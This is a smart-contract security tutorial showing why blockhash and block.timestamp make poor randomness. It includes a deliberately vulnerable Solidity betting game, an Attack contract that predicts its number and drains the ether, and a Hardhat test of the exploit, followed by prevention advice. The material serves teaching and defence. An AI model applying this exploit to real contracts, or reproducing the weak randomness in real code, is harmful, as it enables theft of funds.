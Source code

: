 ```yaml
---
description: 🤫 A cautionary tale to never use on-chain randomness
---
```


# Never on-chain randomness

<figure><img src=".gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's).

### ⚒️ Contract

#### 👀 Overview

* We will build a game where there is a pack of cards.
* Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
* Player will guess a number that is going to be picked up.
* The dealer will then at random pick up a card from the pack
* If someone correctly guesses the number, they win `0.1 ETH`
* We will hack this game&#x20;

**Setup a Hardhat project**

```shell
mkdir randomness
cd randomness
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox

# bootstrap the hardhat project
npx hardhat
```

Make sure you select **`Create a Javascript Project`**

Let's first understand what **`abi.encodedPacked`** does.

We have previously used **`abi.encode`** in the Sophomore NFT tutorial, and earlier in the Merkle Tree tutorial.&#x20;

It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string.&#x20;

This is used to compute the **`tokenURI` ** of NFT collections often.&#x20;

**`encodePacked`** <mark style="color:orange;">takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values.</mark>&#x20;

What does this mean?&#x20;

Let's take **`uint256` ** as an example.&#x20;

**`uint256` ** has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on ** `abi.encodePacked`**, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

Create a new file inside the **`randomness/contracts`**directory and call it **`Game.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Game {
    constructor() payable {}

    // Randomly picks a number out of `0 to 2²⁵⁶–1`.
    function pickACard() private view returns (uint256) {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 pickedCard = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        return pickedCard;
    }

    // It begins the game by first choosing a random number by calling `pickACard`
    // It then verifies if the random number selected is equal to `_guess` passed by the player
    // If the player guessed the correct number, it sends the player `0.1 ether`
    function guess(uint256 _guess) public {
        uint256 _pickedCard = pickACard();
        if (_guess == _pickedCard) {
            (bool sent, ) = msg.sender.call{value: 0.1 ether}("");
            require(sent, "Failed to send ether");
        }
    }

    // Returns the balance of ether in the contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Create a new file inside the **`randomness/contracts`**directory and call it **`Attack.sol`**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Game.sol";

contract Attack {
    Game game;

    // Creates an instance of Game contract with the help of `gameAddress`
    constructor(address gameAddress) {
        game = Game(gameAddress);
    }

    // Attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
    // is accessible publicly
    function attack() public {
        // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
        // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
        // which is further converted to a `uint`.
        // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
        uint256 _guess = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number), block.timestamp)
            )
        );
        game.guess(_guess);
    }

    // Gets called when the contract receives ether
    receive() external payable {}
}
```

* How the attack takes place is as follows:
  * The hacker calls the **`attack` ** function from the **`Attack.sol`**
  * **`attack` ** further guesses the number using the same method as **`Game.sol`** which is **`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`**
  * Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  * The attacker then calls the **`guess` ** function from **`Game.sol`**
  * **`guess` ** first calls the **`pickACard`** function which generates the same number using **`uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`** because **`pickACard` ** and **`attack` ** were both called in the same block.
  * **`guess`** compares the numbers and they turn out to be the same.
  * **`guess` ** then sends the **`Attack.sol`  `0.1 ether`** and the game ends
  * Attacker is successfully able to guess the random number

#### Writing the Test

Create a new file inside the **`.../test`**directory and call it **`attack.js`**

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");
const { BigNumber, utils } = require("ethers");

describe("Attack", function () {
  it("Should be able to guess the exact number", async function () {
    // Deploy the Game contract
    const Game = await ethers.getContractFactory("Game");
    const game = await Game.deploy({ value: utils.parseEther("0.1") });
    await game.deployed();

    console.log("Game contract address", game.address);

    // Deploy the attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attack = await Attack.deploy(game.address);

    console.log("Attack contract address", attack.address);

    // Attack the Game contract
    const tx = await attack.attack();
    await tx.wait();

    const balanceGame = await game.getBalance();
    // Balance of the Game contract should be 0
    expect(balanceGame).to.equal(BigNumber.from("0"));
  });
});

```

Now open up a terminal pointing to `randomness` folder and execute this

```sh
npx hardhat test
```

If all your tests passed, you have successfully completed the hack and were able to predict the randomness with 100% accuracy, so it wasn't really that random.

### 👮 Preventions

* Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
* You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness
